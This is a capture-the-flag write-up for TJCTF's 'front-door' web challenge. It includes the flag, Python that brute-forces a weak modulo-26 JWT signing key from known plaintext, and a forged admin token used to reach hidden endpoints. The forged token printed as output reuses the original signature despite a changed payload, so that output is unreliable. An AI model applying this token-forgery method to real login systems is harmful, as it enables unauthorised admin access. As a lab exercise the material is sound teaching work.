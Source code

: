 ```yaml
---
title: front-door
category: Web Exploitation
tags: 
completedDuringEvent: true
submitted: true
points : 337
flag: tjctf{buy_h1gh_s3l1_l0w}
draft: false
---
```

So we are given a web, which can be logged in temporarily, and we can login with anything but not admin,

![](frontdoorlogin.png)

After login, u will notice that there is JWT cookie,

`eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ICJiYXIiLCAicGFzc3dvcmQiOiAiYmFyIiwgImFkbWluIjogImZhbHNlIn0.JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB`

and if u access `/products`, there is some functions 

```py
      def has(inp):
            hashed = ""
            key = jwt_key
            for i in range(64):
                hashed = hashed + hash_char(inp[i % len(inp)], key[i % len(key)])
            return hashed

        def hash_char(hash_char, key_char):
            return chr(pow(ord(hash_char), ord(key_char), 26) + 65)
```
this is related to jwt \
The main weakness is in the modulo 26 operation `(pow(..., ..., 26))`. Since the modulus is very small, we can easily brute-force every character of the `jwt_key`

We have the “plaintext” (JWT data) and the “ciphertext” (signature) this allows us to launch a known-plaintext attack to find the key

```py
def hash_char(hash_char, key_char):
    try:
        return chr(pow(ord(hash_char), ord(key_char), 26) + 65)
    except (ValueError, TypeError):
        return None

inp = "eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ICJhIiwgInBhc3N3b3JkIjogImEiLCAiYWRtaW4iOiAiZmFsc2UifQ"
known_signature = "JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB"

cracked_key_chars = []

for i in range(64):
    input_char = inp[i % len(inp)]
    signature_char = known_signature[i]
    found = False
    for key_ord_candidate in range(256):
        key_char_candidate = chr(key_ord_candidate)
        if hash_char(input_char, key_char_candidate) == signature_char:
            cracked_key_chars.append(key_char_candidate)
            print(f"Position {i}: Input='{input_char}', Signature='{signature_char}' -> Found key character: '{key_char_candidate}' (ASCII: {key_ord_candidate})")
            found = True
            break
    if not found:
        print(f"FAILED at position {i}: No matching key character for input='{input_char}' and signature='{signature_char}'")
        break

if len(cracked_key_chars) == 64:
    print("".join(cracked_key_chars))
```

![](frontdoorascii.png)

`2, 3, 3, 1, 5, 7, 0, 0, 0, 0, 1, 0, 1, 8, 2, 1, 0, 2, 0, 3, 2, 4, 1, 0, 2, 0, 7, 0, 0, 9, 6, 0, 1, 7, 0, 8, 1, 0, 2, 5, 3, 2, 2, 0, 12, 2, 5, 1, 2, 2, 3, 0, 2, 1, 1, 8, 0, 1, 2, 2, 1, 3, 8, 0` is the `key`

then we can make a new JWT cookie,
```py
def hash_char(hash_char, key_char):
    return chr(pow(ord(hash_char), ord(key_char), 26) + 65)

def has(inp, key):
    hashed = ""
    for i in range(64):
        hashed = hashed + hash_char(inp[i % len(inp)], key[i % len(key)])
    return hashed

ascii_values = [2, 3, 3, 1, 5, 7, 0, 0, 0, 0, 1, 0, 1, 8, 2, 1, 0, 2, 0, 3, 2, 4, 1, 0, 2, 0, 7, 0, 0, 9, 6, 0, 1, 7, 0, 8, 1, 0, 2, 5, 3, 2, 2, 0, 12, 2, 5, 1, 2, 2, 3, 0, 2, 1, 1, 8, 0, 1, 2, 2, 1, 3, 8, 0]
jwt_key = "".join([chr(val) for val in ascii_values])

new_inp = "eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ICJhIiwgInBhc3N3b3JkIjogImEiLCAiYWRtaW4iOiAidHJ1ZSJ9"

new_signature = has(new_inp, jwt_key)
final_jwt = new_inp + "." + new_signature
print(final_jwt)
```
output: `eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ICJhIiwgInBhc3N3b3JkIjogImEiLCAiYWRtaW4iOiAidHJ1ZSJ9.JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB`

then set the new JWT,

![](frontdooradmin.png)

there is new endpoint `/todo`

![](frontdoortodo.png)

first, i have no idea about what is this, so i just use dcode identifier, then i tried with XOR

![](frontdoordecode.png)

and access endpoint `/business_secrets`

![](frontdoorflag.png)